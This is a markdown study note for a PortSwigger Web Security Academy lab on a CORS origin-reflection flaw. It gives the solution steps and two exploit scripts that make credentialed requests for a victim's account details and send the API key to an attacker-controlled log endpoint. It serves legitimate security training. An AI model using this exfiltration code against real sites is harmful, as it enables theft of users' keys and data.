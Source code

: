CORS Portswigger: https://portswigger.net/web-security/cors


# 1)Lab: CORS vulnerability with basic origin reflection

Lab: https://portswigger.net/web-security/cors/lab-basic-origin-reflection-attack

This website has an insecure CORS configuration in that it trusts all origins.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: `wiener:peter`

 ####  Solution

1. Check intercept is off, then use the browser to log in and access your account page.
2. Review the history and observe that your key is retrieved via an AJAX request to `/accountDetails`, and the response contains the `Access-Control-Allow-Credentials` header suggesting that it may support CORS.
3. Send the request to Burp Repeater, and resubmit it with the added header:
    
    `Origin: https://example.com`
4. Observe that the origin is reflected in the `Access-Control-Allow-Origin` header.
5. In the browser, go to the exploit server and enter the following HTML, replacing `YOUR-LAB-ID` with your unique lab URL:
```
<script> var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true; req.send(); function reqListener() { location='/log?key='+this.responseText; }; </script>
```

1. Click **View exploit**. Observe that the exploit works - you have landed on the log page and your API key is in the URL.
2. Go back to the exploit server and click **Deliver exploit to victim**.
3. Click **Access log**, retrieve and submit the victim's API key to complete the lab.

Rana khalil: 
Lab video:https://www.youtube.com/watch?v=XTFDst3TjMM&ab_channel=RanaKhalil
Lab solution:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/notes.txt
HTML script:https://github.com/rkhal101/Web-Security-Academy-Series/blob/main/cors/lab-01/cors-lab-01.html


```
Lab #1 - CORS vulnerability with basic origin reflection

Target Goal - exploit the CORS misconfiguration to retrieve the administrator's API key

Creds - wiener:peter

Analysis:

Testing for CORS misconfigurations:
1. change the origin to an arbitrary value / True
2.
```

Html script for exploiting CORS:
```
<html>
    <body>
        <h1>Hello World!</h1>
        <script>
            var xhr = new XMLHttpRequest();
            
            var url = "YOUR-LAB-ID.web-security-academy.net"
            
            xhr.onreadystatechange = function() {
                if (xhr.readyState == XMLHttpRequest.DONE){
                    fetch("/log?key=" + xhr.responseText)
                }
            }

            xhr.open('GET', url + "/accountDetails", true);
            xhr.withCredentials = true;
            xhr.send(null)
        </script>
    </body>
</html>
```


